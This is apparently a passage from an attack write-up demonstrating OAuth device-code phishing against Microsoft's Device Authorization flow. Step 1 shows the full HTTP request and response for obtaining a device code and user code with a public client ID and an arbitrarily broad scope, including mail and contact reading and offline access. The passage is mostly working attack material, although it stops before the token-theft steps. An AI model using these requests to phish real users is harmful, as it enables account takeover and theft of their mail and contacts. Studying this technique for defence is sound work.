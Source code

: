 > For this demonstration, the attack is performed against Microsoft's OAuth Device Authorization flow

### Step 1: Requesting the Device Code

Using the client ID for the target public OAuth application, send a request to the following endpoint: `login.microsoftonline.com/<tenant>/oauth2/v2.0/devicecode` (where tenant is `organizations` for the use-case of a work email). The server will repond with a JSON object that contains a device code and an associated user code.

#### Request
The request consists of two HTTP POST parameters:
* `client_id`: The client ID of the target public OAuth application.
* `scope`: Space-delimited list of permissions to reuqest when the user is authorizing the application.

> Based on research, it does not appear that the scope provided by the client is restricted to what the application originally specified. As a result, an arbitrary scope can be provided.

```
POST /organizations/oauth2/v2.0/devicecode HTTP/1.1
Host: login.microsoftonline.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:69.0) Gecko/20100101 Firefox/69.0
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: close
DNT: 1
Upgrade-Insecure-Requests: 1
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded
Content-Length: 151

client_id=<client_id>&scope=user.read%20analytics.read%20offline_access%20openid%20profile%20email%20Mail.Read%20Contacts.Read
```

#### Response
Microsoft returns a JSON object with several value's in it, but user_code and device_code are the two most important values:
* `user_code`: Nine character alphanumeric value that the user will enter during device login.
* `device_code`: Session identifier that is used by Microsoft to track user authentication and allow for the retrieval of the access and refresh tokens.
* *verification_uri*: The URL that the user will submit the user_code for authentication.
* *expires_in*: Time, in seconds, before the device code expires.
* *interval*: Time, in seconds, in between each poll to check if the user has authenticated.
* *message*: General message to provide to the user with the authentication URL and user code.

```
HTTP/1.1 200 OK
Cache-Control: no-store, no-cache
Pragma: no-cache
Content-Type: application/json; charset=utf-8
Expires: -1
Strict-Transport-Security: max-age=31536000; includeSubDomains
X-Content-Type-Options: nosniff
P3P: CP="DSP CUR OTPi IND OTRi ONL FIN"
x-ms-request-id: 2b01a7ca-539b-4cc8-bd51-075fc505db00
x-ms-ests-server: 2.1.11169.11 - CHI ProdSlices
Set-Cookie: fpc=[REDACTED]; expires=Thu, 26-Nov-2020 19:50:28 GMT; path=/; secure; HttpOnly; SameSite=None
Set-Cookie: esctx=[REDACTED]; domain=.login.microsoftonline.com; path=/; secure; HttpOnly; SameSite=None
Set-Cookie: x-ms-gateway-slice=prod; path=/; secure; samesite=none; httponly
Set-Cookie: stsservicecookie=ests; path=/; secure; samesite=none; httponly
Referrer-Policy: strict-origin-when-cross-origin
Date: Tue, 27 Oct 2020 19:50:28 GMT
```